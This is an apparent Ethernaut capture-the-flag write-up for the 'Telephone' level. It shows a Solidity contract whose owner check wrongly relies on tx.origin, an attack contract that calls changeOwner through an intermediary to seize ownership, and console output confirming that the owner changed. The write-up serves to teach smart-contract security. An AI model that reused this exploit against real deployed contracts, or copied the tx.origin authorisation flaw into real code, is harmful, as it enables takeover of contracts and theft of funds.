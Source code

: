 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel4.svg">

## Target Contract Review
 
Given contarct.

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

As usual, we should change the owner address in the contract to our own address. In this senario, there is function which can change owner's address while ```tx.origin``` is not equal to msg.sender. Shortly, tx.origin is global variable refers to the original external account that started the transaction.

So never use ```tx.origin``` method for authorization, another contract can have a method which will call your contract (where the user has some funds for instance) and your contract will authorize that transaction as your address is in ```tx.origin```.
You should use msg.sender for authorization (if another contract calls your contract msg.sender will be the address of the contract and not the address of the user who called the contract).

## Subverting

My attack contract.

```solidity
pragma solidity ^0.6.0;

import './Telephone.sol';

contract Attack{

    address payable owner;
    Telephone _targetcontract;

    constructor(Telephone _taget) public{
        _targetcontract = Telephone(_taget);
        owner = payable(msg.sender);
    }

    function attack() public{
        	_targetcontract.changeOwner(owner);
    }
}
```
For explain the code, we must first know which contract address the target is.Then call ```changeOwner()``` function as **msg.sender** of telephone contract. As a consequence, we will pass the condition.

Learn contract address.
```shell
await contract
n {methods: {…}, abi: Array(3), address: '0x822962fdf052E28fB48a45ACaf9564F46675d8ed', transactionHash: undefined, constructor: ƒ, …}

```
> 0x822962fdf052E28fB48a45ACaf9564F46675d8ed

Deploy the attack contract and enter target's contract address to constructor.

Check owner of the contract before we deploy the attack contractç

```solidity
await contract.owner()
'0x0b6F6CE4BCfB70525A31454292017F640C10c768'
```
<img src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Telephone/img/metamask.png">

Now check the owner again and we solved again.
```solidity
await contract.owner()
'0x0C39eb3D6C0583AdA92e15C9e7610B609BBdF35b'
```
**_by wasny0ps_**
